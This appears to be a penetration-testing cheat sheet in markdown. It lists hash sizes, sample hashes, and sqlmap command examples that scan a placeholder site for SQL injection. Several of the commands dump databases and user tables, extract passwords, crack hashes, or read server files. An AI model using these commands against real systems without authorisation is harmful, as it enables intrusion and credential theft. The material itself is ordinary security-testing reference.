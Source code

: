 ## Cryptography :lock:

### Hash Lengths

| Hash        | Size      |
| ----------- | --------- |
| MD5         | 16 Bytes  |
| SHA-1       | 20 Bytes  |
| SHA-256     | 32 Bytes  |
| SHA-512     | 64 Bytes  |

### Hash Examples

| Hash                  | Example                             |
| --------------------- | ----------------------------------- |
| MD5 Hash Example      | 8743b52063cd84097a65d1633f5c74f5      |
| SHA1 Hash Example     | b89eaac7e61417341b710b727768294d0e6a277b|
| SHA-256               | 127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935|
| SHA-512               | 82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f|

## SQLMap Examples :bug:

| Command                                                                 | Description                                       |
| ----------------------------------------------------------------------- | -------------------------------------------------- |
| `sqlmap -u http://meh.com –forms –batch –crawl=10 –cookie=jsessionid=54321 –level=5 –risk=3` | Automated sqlmap scan                             |
| `sqlmap -u TARGET -p PARAM –data=POSTDATA –cookie=COOKIE –level=3 –current-user –current-db –passwords –file-read="/var/www/blah.php"` | Targeted sqlmap scan                              |
| `sqlmap -u "http://meh.com/meh.php?id=1" –dbms=mysql –tech=U –random-agent –dump` | Scan URL for union + error-based injection with MySQL backend and use a random user agent + database dump |
| `sqlmap -o -u "http://meh.com/form/" –forms`                             | SQLMap check form for injection                    |
| `sqlmap -o -u "http://meh/vuln-form" –forms -D database-name -T users –dump` | SQLMap dump and crack hashes for table users on database-name |
